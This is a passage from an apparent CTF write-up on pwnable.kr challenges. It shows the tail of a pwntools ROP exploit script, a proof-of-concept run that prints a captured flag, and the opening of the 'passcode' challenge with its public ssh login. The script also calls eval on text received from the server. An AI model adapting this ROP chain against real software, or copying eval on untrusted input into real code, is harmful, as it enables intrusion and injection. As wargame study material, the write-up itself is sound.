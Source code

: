 ```python
    p32(elf.sym.F),
    p32(elf.sym.G),
    p32(call_ropme)
)

sla(io, b"earned? : ", payload)

io.recvline()
result = 0

for i in range(7):
    data = io.recvline().decode()
    result = eval(f"{result} {re.findall(r'\(EXP (\+\-?\d+)\)', data)[0]}")
result =  result % (2 ** 32)

if result > 2147483647:
    result -= 2 ** 32
if result < -2147483648:
    result += 2 ** 32
    
info(f"Sum: {result}")

sla(io, b"Menu:", b"1")
sla(io, b"earned? : ", str(result).encode())

data = io.recvline().decode()
info(f"Flag: {data}")
```

**POC**

```bash
└─$ python3 sol.py REMOTE pwnable.kr 9032
[+] Opening connection to pwnable.kr on port 9032: Done
[*] Sum: 1950399133
[*] Flag: Magic_spell_1s_4vad4_K3daVr4!
[*] Closed connection to pwnable.kr port 9032
```

### passcode (10 pt)

```
Start day: 11/3/2025
End day: 11/3/2025
Evaluate: Easy
```

```txt
Information: 10 points

Mommy told me to make a passcode based login system.
My initial C code was compiled without any error!
Well, there was some compiler warning, but who cares about that?

ssh passcode@pwnable.kr -p2222 (pw:guest)
```
